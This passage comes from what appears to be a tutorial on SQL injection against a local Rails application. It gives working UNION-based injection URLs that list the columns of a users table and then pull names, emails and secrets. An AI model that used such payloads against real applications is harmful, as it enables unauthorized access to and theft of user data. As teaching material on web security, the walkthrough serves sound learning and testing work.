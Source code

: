 !["select table names"](/assets/images/rails-sqli/image8.png "select table names")

Now we retrieved the tables’ names, let’s get users table columns.

`http://localhost:3000/posts?category=') union select 1,column_name,null,null,null,null from information_schema.columns where table_name= 'users'--`

!["select users table columns"](/assets/images/rails-sqli/image9.png "select users table columns")

So we have a name, email, secret columns.

Now let’s select these columns from the users table.

`http://localhost:3000/posts/?category=') union select 1,concat(name,':',email,':',secret),null,null,null,null from users--`

This will concatenate the three columns and return them in the format of NAME:EMAIL:SECRET

!["select users secrets"](/assets/images/rails-sqli/image10.png "select users secrets")

